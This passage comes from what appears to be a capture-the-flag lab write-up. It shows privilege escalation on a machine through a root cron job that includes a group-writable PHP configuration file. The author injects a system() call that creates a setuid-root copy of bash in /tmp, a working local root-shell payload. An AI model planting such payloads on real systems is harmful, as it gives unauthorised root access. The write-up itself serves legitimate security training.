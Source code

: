 ```
        else {
                $info = curl_getinfo($curl);
                $http_code = $info['http_code'];
                $ms = $info['total_time_us'] / 1000;
                $response_data[$timestamp]['time'] = $ms;
                $response_data[$timestamp]['response'] = $http_code;
        }

        curl_close($curl);
        if(file_exists(PATH.'/monitors/'.$name)) {
                $data = json_decode(file_get_contents(PATH.'/monitors/'.$name), TRUE);
        }
        else {
                $data = array();
        }
        $data = array_merge($data, $response_data);
        $data = array_slice($data, -60);
        file_put_contents(PATH.'/monitors/'.$name, json_encode($data, JSON_PRETTY_PRINT));
}

```

At the top of the script, the comments suggest this file should be run as a cron job, and shows an example of running it every minute. It’s reasonable to guess that’s what’s happening here (though I could upload a tool like [pspy](https://github.com/DominicBreuker/pspy) to verify).

After the comments, the first line runs `include('config/configuration.php')`. That’s the file that was in the management group! That file is writable by members of the management group like albert:

```

albert@alert:/opt/website-monitor$ ls -l config/configuration.php
-rwxrwxr-x 1 root management 49 Nov  5 14:31 config/configuration.php

```

### Exploit

I’ll open the `configuration.php` file, and it’s very short:

```

<?php
define('PATH', '/opt/website-monitor');
?>

```

I’ll add a line:

```

<?php
define('PATH', '/opt/website-monitor');
system('cp /bin/bash /tmp/0xdf; chown root:root /tmp/0xdf; chmod 6777 /tmp/0xdf;');
?>

```
